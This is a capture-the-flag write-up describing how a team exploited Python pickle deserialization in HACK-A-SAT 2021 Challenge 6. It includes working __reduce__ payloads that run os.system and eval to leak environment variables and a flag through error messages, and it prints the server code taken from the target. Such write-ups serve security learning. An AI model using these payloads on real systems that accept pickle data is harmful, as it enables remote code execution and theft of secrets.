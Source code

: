 # HACK-A-SAT 2021: Challenge 6

## Service discovery

A final challenge was released one hour and a half before the end of the 
competition:

> Challenge 6 is up! Additional ports are enabled on the API server, 1341-1348 and 1361-1368, corresponding to your team

Upon the connection to one of the API server (`10.0.<team #>1.100`) on port 
1347, no data is received. After sending some garbage, we identified very 
unique error messages:

```
svrdig: Digest failed: pickle data was truncated
svrdig: Digest failed: invalid load key, 'A'
```

These messages are enough to be put on track for a Python pickle 
vulnerability. [[1]](https://github.com/python/cpython/blob/f4c03484da59049eb62a9bf7777b963e2267d187/Modules/_pickle.c#L1229) [[2]](https://github.com/python/cpython/blob/f4c03484da59049eb62a9bf7777b963e2267d187/Modules/_pickle.c#L6955)

## Exploitation

The Python pickle serialization format is already quite famous and documented
among security enthusiasts. For instance, it supports deserializing instances 
and to control how they should be treated. For instance, the method 
`__reduce__()` can return a tuple to tell `pickle` how to create the instance, 
as [found in the official documentation](https://docs.python.org/3/library/pickle.html#object.__reduce__):

> A callable object that will be called to create the initial version of the 
> object.
> A tuple of arguments for the callable object. An empty tuple must be given if 
> the callable does not accept any argument.

The invocation of an arbitrary callable object with custom arguments is enough to
execute commands during the deserialization process:

```python
import os

import pickle 
import pickletools 

class A:
    def __reduce__(self):
        return os.system, ('sleep 5',)

pickled = pickle.dumps(A())
pickle.loads(pickled)
```

This behavior can also be confirmed with `pickletools`, the final payload uses 
the `REDUCE` opcode:

```
    0: \x80 PROTO      4
    2: \x95 FRAME      34
   11: \x8c SHORT_BINUNICODE 'posix'
   18: \x94 MEMOIZE    (as 0)
   19: \x8c SHORT_BINUNICODE 'system'
   27: \x94 MEMOIZE    (as 1)
   28: \x93 STACK_GLOBAL
   29: \x94 MEMOIZE    (as 2)
   30: \x8c SHORT_BINUNICODE 'sleep 5'
   39: \x94 MEMOIZE    (as 3)
   40: \x85 TUPLE1
   41: \x94 MEMOIZE    (as 4)
   42: R    REDUCE
   43: \x94 MEMOIZE    (as 5)
   44: .    STOP
highest protocol among opcodes = 4
```

Despite an error message (`svrdig: Digest failed: '...' object has no attribute 'run'`) 
we assumed that the payload was correctly deserialized and the 
`REDUCE` opcode processed and that something else was breaking later in the 
code.

We tried various payloads to confirm that the command was run on the remote 
host, without success. Time-based payloads (e.g. using `sleep`) were not very 
helpful because of network jitter, and we did not achieve to get obtain a 
reverse shell back to our host. 

We had to look for another communication channel and thought about the error 
message we saw earlier: by raising an exception during the deserialization 
process, we could exfiltrate data.

```python
class A:
    def __reduce__(self):
        return (eval, ("__import__(str(os.environ.keys()))",))
```

This command resulted in an interesting finding, an environment variable named
`FLAG`:

```
svrdig: Digest failed: No module named "['PATH', 'HOSTNAME', 'COSMOS_CTS_HOSTNAME', 'FLAG', 'SERVER_PORT', 'HOME', 'LC_CTYPE']"
```

Its value could subsequently be leaked with the same technique:

```python
class A:
    def __reduce__(self):
        return (eval, ("__import__(str(os.environ['FLAG']))",))
```

```
svrdig: Digest failed: No module named 'UpbTqde9'
```

As stated by the organizers, the score is based on flag submission every round: 
we automated both the exploitation and the submission until the end of the 
competition.

We also exfiltrated `digest_server.py` and `digest.py` to confirm our 
assumptions about the challenge after collecting the first flags:

```python
#!/usr/bin/python3

import pickle, socket, os
from digest import Digest

def init():
    HOST = "0.0.0.0"
    print(os.environ)
    DIGEST_PORT = int(os.environ['SERVER_PORT'])

    print(f"svrdig: Starting digest server at address {HOST} port {DIGEST_PORT}")

    digest_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    digest_socket.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    digest_socket.bind((HOST, DIGEST_PORT))
    digest_socket.listen(1)

    while True:
        conn, addr = digest_socket.accept()

        data = conn.recv(2048)

        print(f"svrdig: Server got a digest object from addr {addr} of len {len(data)}")

        try:
            digest_obj = pickle.loads(data)
            print(f"svrdig: Digest object created: {digest_obj}")

            tlmoutput = digest_obj.run()

            print(f"svrdig: Output from Digest object: {tlmoutput}")

            conn.send(tlmoutput.encode())  #bytes(tlmoutput))

            conn.close()
        except Exception as e:
            conn.send(f"svrdig: Digest failed: {str(e)} Closing connection!".encode())
            conn.close()

init()
```

```python
import ballcosmos

# Define a digest object for collection of telemetry data
# Uses the COSMOS_CTS_HOSTNAME environment variable to connect to cosmos

class Digest:
    tlmentries = []

    def run(self):
        print(f"dig: Running Digest object with tlmentries={self.tlmentries}")

        # compiles a list of commands and runs them

        output = ""
        for t in self.tlmentries:
            output += ballcosmos.tlm(t)

        return output
```

## Conclusion

After some trial and error, we quickly identified the vulnerability and could 
exploit it against other teams. It took about 30 minutes to get our first flag, 
that we validated a little bit before the first-blood on this challenge was announced.

We haven't investigated the possibility to send commands to other team's Cosmos 
instances by deserializing `Digest` objects or direct connections.
